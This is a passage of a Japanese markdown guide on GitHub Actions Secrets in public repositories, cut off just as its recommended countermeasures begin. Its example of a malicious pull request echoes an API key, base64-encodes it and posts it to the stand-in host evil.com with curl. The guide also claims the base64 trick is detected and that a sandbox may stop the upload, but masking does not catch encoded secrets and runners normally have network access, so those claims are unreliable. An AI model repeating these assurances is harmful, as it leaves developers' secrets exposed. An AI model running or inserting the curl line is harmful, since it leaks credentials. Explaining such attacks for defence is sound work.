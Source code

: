 # GitHub Actions セキュリティガイド

## 🔒 GitHub Secretsは安全か？

### ✅ はい、Publicリポジトリでも安全です！

GitHub Secretsは以下の方法で保護されています：

1. **暗号化保存**
   - すべてのSecretsはAES-256で暗号化されて保存
   - GitHubの管理者でも復号化できません

2. **アクセス制限**
   - リポジトリのオーナーと管理者のみが設定可能
   - 閲覧者やコントリビューターは見られません

3. **自動マスキング**
   - ワークフローログで自動的に`***`でマスク
   - 誤って出力されても保護されます

4. **読み取り専用**
   - 一度登録すると、値を確認できません（更新のみ可能）

---

## ⚠️ Publicリポジトリでの注意点

### リスク：外部からのPRでの攻撃

Publicリポジトリでは誰でもPRを作成できるため、以下のような攻撃が考えられます：

```yaml
# 悪意のあるPRの例
- name: 攻撃の試み
  run: |
    # 直接出力 → 自動でマスクされる ✅
    echo "${{ secrets.API_KEY }}"
    
    # Base64エンコードして回避を試みる → これも検知される ✅
    echo "${{ secrets.API_KEY }}" | base64
    
    # 外部サーバーに送信を試みる → sandboxで防がれる可能性 ⚠️
    curl -X POST https://evil.com/steal -d "${{ secrets.API_KEY }}"
```

---

## 🛡️ 推奨されるセキュリティ対策

### 1. 外部PRの承認制を有効化（必須）
